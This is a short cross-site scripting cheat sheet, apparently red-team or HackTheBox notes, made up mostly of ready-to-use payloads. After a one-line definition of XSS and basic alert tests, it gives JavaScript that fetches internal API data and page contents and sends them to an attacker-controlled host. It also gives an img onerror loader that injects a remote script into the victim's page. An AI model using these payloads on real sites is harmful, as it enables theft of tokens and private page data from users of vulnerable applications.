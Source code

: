 #Red-Team #Exploit #function #Generation #Payload #Vulnerability 

## What is XSS?

#### **Cross-Site Scripting (XSS)** is a type of web application security vulnerability that allows an attacker to inject and execute malicious scripts.


## Payloads:

### `<script>alert(1);</script>` OR `<img src=x onerror=alert(1);>`


## Page/Token steal 

#### Create a file script.js and host it on the port 80:
````
fetch('/api/info').then(response => response.text()).then(text => {
    fetch('http://10.10.XX.XX:8000/log?' + btoa(text), {
        mode: 'no-cors'
    });
});
````
#### Then send this script to redirect him to the file:

````
<img src=1 onerror="this.remove(); var s=document.createElement('script'); s.src='http://10.10.XX.XX/script.js'; document.body.appendChild(s);">
````

## Steal page content


````
```
<script>  
  fetch("http://alert.htb/index.php?page=messages")  
    .then(response => response.text()) // Convert the response to text  
    .then(data => {       
      fetch("http://<your host>/?data=" + encodeURIComponent(data));  
    })  
    .catch(error => console.error("Error fetching the messages:", error));  
</script>
````
### OR

````
var url = "http://10.10.10.25:8000/target";
var attacker = "http://10.10.14.8/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
````
